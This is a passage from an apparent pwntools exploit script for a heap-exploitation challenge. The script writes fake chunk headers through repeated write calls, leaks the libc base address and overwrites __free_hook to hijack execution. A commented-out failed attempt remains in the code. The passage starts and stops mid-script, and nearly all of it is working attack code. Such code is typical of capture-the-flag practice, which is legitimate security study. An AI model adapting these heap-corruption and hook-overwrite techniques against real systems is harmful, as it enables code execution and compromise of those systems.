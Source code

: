 ```python
    cnt+=1

for i in range(36, 42):
    w(i, str(i).encode('utf-8')+b'\n')
    cnt+=1

w(44, p64(heap+0x2e0)+b'\n')
w(195, b'\n')
w(45, p64(0)*3+p64(0x441)+b'\n')
w(1, b'\n')
w(0, p64(heap+0x340)+p64(heap+0x4c0)+p64(heap+0x500)+p64(heap+0x4f0)+b'\n')
c(11)
libc.address = u64(io.recv(6)+b'\0\0') - 0x1ecbe0
stdout = libc.address + 0x1ed6a0
log.info('Libc: '+hex(libc.address))

'''
# this is for my madness unsortedbin idea but failed...
w(12, b'\n')
w(1000, p64(0)*5+b'\x41\n')
w(13, b'\n')
w(1001, p64(0)*5+b'\x41\n')
w(1002, b'\n')
w(1003, b'\n')
w(1004, b'\n')
w(1005, b'\n')
w(1006, b'\n')
w(14, b'\n')
#w(1007, p64(0)+p64(0x241)+p64(0)+p64(heap+0xa0-0x10)+b'\n')
#w(1008, b'\n')
'''

for i in range(17):
    w(1000+i, p64(heap+0x10)+b'\n')

current = 5000
ptrbase = heap + 0x980
ptrlist = heap + 0x2a8

freeptrlist = []

for count in range(7):
    for i in range(11):
        w(current, p64(current)+p64(0)*2+b'\x41\n')
        current += 1
    w(current, p64(0)+p64(0x41)+p64(ptrbase+0x20+count*0x300)+p64(ptrbase+0x40+count*0x300)+b'\n')
    current += 1
    freeptr = 0x135 + (count * 0x300) // 8
    freeptrlist.append(freeptr)
    print(hex(freeptr))


dummy = 10000
for count in range(6):
    w(freeptrlist[count], b'\n')
    w(dummy+count, p64(0)*3+p64(0x291)+b'\n')
    w(freeptrlist[count]+1, b'\n')

print(freeptrlist)

w(12000, p64(heap+0x2180)+b'\n')
w(-1, b'\n')
w(0x3db, p64(libc.sym['__free_hook'])+b'\n')
```